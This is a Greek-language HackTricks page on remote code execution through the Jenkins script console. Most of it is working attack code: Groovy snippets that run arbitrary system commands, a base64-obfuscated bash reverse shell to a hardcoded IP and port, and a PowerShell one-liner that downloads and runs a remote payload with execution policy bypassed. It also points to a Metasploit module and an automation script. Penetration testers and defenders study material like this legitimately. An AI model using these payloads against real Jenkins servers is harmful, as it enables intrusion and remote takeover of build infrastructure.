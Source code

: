 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

Αυτό είναι λιγότερο θορυβώδες από το να δημιουργήσεις ένα νέο έργο στο Jenkins

1. Πήγαινε στο _path\_jenkins/script_
2. Μέσα στο πλαίσιο κειμένου εισάγεις το σενάριο
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Μπορείτε να εκτελέσετε μια εντολή χρησιμοποιώντας: `cmd.exe /c dir`

Στο **linux** μπορείτε να κάνετε: **`"ls /".execute().text`**

Αν χρειαστεί να χρησιμοποιήσετε _εισαγωγικά_ και _μονά εισαγωγικά_ μέσα στο κείμενο. Μπορείτε να χρησιμοποιήσετε _"""PAYLOAD"""_ (τριπλά διπλά εισαγωγικά) για να εκτελέσετε το payload.

**Ένα άλλο χρήσιμο groovy script** είναι (αντικαταστήστε \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Αντίστροφη θήκη σε linux
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell in windows

Μπορείτε να προετοιμάσετε έναν HTTP server με ένα PS reverse shell και να χρησιμοποιήσετε το Jeking για να το κατεβάσετε και να το εκτελέσετε:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

Μπορείτε να αυτοματοποιήσετε αυτή τη διαδικασία με [**αυτό το σενάριο**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Μπορείτε να χρησιμοποιήσετε το MSF για να αποκτήσετε ένα reverse shell:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
